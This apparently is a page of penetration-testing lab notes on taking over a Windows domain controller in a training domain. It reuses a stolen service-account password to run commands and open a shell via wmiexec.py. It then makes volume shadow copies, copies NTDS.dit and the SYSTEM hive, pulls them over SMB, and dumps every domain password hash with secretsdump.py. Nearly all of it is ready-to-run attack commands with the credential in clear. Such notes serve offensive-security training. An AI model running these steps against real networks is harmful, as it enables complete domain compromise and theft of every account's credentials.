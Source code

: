 ### Use Stolen Credential
* linux
    * use wmiexec.py to execute commands on DC
    ```
    wmiexec.py hiboxy.com/SVC_SQLService2:^Cakemaker@10.130.10.4 whoami
    wmiexec.py hiboxy.com/SVC_SQLService2:^Cakemaker@10.130.10.4 hostname
    wmiexec.py hiboxy.com/SVC_SQLService2:^Cakemaker@10.130.10.4 net user
    wmiexec.py hiboxy.com/SVC_SQLService2:^Cakemaker@10.130.10.4 net user SVC_SQLService2
    ```

## Domain Dominance
### Establishing a shell on DC
* linux
    * establish a shell
    ```
    wmiexec.py hiboxy.com/SVC_SQLService2:^Cakemaker@10.130.10.4
    ```
### Looking at Shadow Copies
* linux(wmiexec)
    * list the shadow copies
    ```
    vssadmin.exe list shadows
    ```
    * if there is no shadow copy, create one 
    ```
    vssadmin create shadow /for=c:
    ```

### Creating a Copy of NTDS.dit and the System Hive
* linux
    * copy from shadow copy path
    ```
    copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy1\windows\ntds\ntds.dit c:\extract\ntds.dit
    ```
    * backup the registry
    ```
    reg save hklm\system c:\extract\system /y
    ```

### Copy the NTDS.dit File to Local Machine
* linux
    * copy NTDS.dit file with smbclient.py
    ```
    smbclient.py hiboxy.com/SVC_SQLService2:^Cakemaker@10.130.10.4
    use c$
    cd extract
    get ntds.dit
    get system
    exit
    ```
### Extracting Hashes
* linux
    * dump hashes
    ```
    secretsdump.py -ntds ~/labs/ntds.dit -system ~/labs/system -outputfile /tmp/hashes.txt LOCAL
